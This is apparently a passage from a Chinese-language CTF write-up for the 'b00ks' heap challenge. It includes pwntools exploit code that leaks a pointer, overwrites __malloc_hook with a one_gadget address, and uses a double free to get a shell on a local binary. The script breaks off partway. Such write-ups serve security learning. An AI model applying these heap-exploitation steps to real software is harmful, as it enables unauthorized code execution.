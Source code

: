 ```python
 68 one_gadget=0xf02a4
 69 success("__malloc_hook -> {:#x}".format(libc.sym['__malloc_hook']))
 70 edit("1",p64(libc.sym['__malloc_hook']))
 71 pause()
 72 edit("2",p64(libc.address+one_gadget))
 73 pause()
 
```

最后double free触发malloc_printerr从而触发__malloc_hook执行one_gadget，get shell

具体的接替脚本如图，如果有问题，大概就是算偏移那里有一些不一样吧hhh。


```python
  1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
 16 
 17 def delete(index):
 18     p.sendline("2")
 19     log.info(p.recvuntil(":"))
 20     p.sendline(index)
 21     log.info(p.recvuntil(">"))
 22 
 23 
 24 def edit(index,content):
 25     p.sendline("3")
 26     log.info(p.recvuntil(":"))
 27     p.sendline(index)
 28     log.info(p.recvuntil(":"))
 29     p.sendline(content)
 30 
 31 def show():
 32     p.sendline("4")
 33 
 34 def nameedit():
 35     p.sendline("5")
 36     p.recvuntil("name: ")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 44 pause()
 45 p.sendlineafter("name: ","a"*32)
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()
 48 show()
 49 p.recvuntil("a"*32)
 50 book1=u64(p.recv(6)+'\x00'*2)
```